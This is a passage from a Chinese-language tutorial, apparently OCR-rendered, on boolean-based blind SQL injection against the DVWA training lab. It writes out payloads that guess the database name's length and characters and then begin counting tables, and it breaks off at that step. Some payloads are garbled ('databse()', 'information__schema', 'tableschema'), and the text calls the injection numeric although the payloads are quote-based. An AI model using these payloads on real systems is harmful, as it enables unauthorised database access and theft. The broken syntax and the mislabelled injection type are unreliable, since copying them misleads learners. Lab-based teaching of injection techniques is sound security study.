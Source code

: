 
以上结果说明此处存在数字型的sql盲注

1. 猜解当前数据库名

想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。


```text
输入1' and length(database())=1 #，显示不存在；

输入1' and length(database())=2 #，显示不存在；

输入1' and length(database())=3 #，显示不存在；

输入1' and length(database())=4 #，显示存在;

```


以上结果说明数据库名长度为4 ，**正常情况下请使用二分法**。


同样使用**二分法**猜解数据库名。


```text
输入1' and ascii(substr(databse(),1,1))>97 #，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；

输入1' and ascii(substr(databse(),1,1))<122 #，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；

输入1' and ascii(substr(databse(),1,1))<109 #，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；

输入1' and ascii(substr(databse(),1,1))<103 #，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；

输入1' and ascii(substr(databse(),1,1))<100 #，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；

输入1' and ascii(substr(databse(),1,1))>100 #，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。

...

```


重复上述步骤，就可以猜解出完整的数据库名（dvwa）了。

1. 猜解数据库中的表名

首先猜解数据库中表的数量：


```text
1' and (select count (table_name) from information__schema.tables where tableschema=database())=1 # 显示不存在

1' and (select count (table__name) from information__schema.tables where tableschema=database() )=2 # 显示存在_

```
